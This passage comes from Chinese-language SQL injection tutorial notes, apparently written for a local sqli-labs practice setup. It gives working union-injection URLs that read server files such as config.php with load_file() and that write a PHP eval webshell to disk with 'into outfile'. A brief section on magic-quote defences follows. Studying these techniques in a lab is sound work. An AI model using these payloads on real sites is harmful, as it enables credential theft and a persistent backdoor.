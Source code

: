## 读取文件

使用函数：`load_file()`

后面的路径可以是单引号，0x，char 转换的字符。

注意：路径中斜杠是 `/` 不是 `\`

一般可以在联合查询中做为一个字段使用，查看 config.php (即 MySQL 的密码)，apache 配置...

```mysql
#读取路径下的某个文件并返回结果
http://127.0.0.1/mysql/Less-1/?id=-1' union select 1,2,load_file('c:/users/wutongliran/desktop/2.txt') --+
```

​	

## 写入文件

使用函数：

- `into outfile`：能写入多行，按格式输出
- `into dumpfile`：只能写入一行且没有输出格式

`into outfile` 后面不能接 0x 开头或者 char 转换以后的路径，只能是单引号路径

```mysql
#将木马写入指定位置
http://127.0.0.1/mysql/Less-1/?id=-1' union select 1,'<?php eval($_REQUEST[wtlr]); ?>',3 into outfile 'D://1.php'--+
```

​	

​	

# SQL注入之基础防御

## 魔术引号

魔术引号（Magic Quote）是一个自动将进入 PHP 脚本的数据进行转义的过程。

当打开时，所有的 '（单引号），"（双引号），\（反斜线）都会被自动加上一个反斜线进行转义。这和 **addslashes()** 作用完全相同。

魔术引号在php.ini文件内找

```
magic_quotes_gpc = On/Off 开启/关闭
```

​	

## 内置函数

做数据类型的过滤
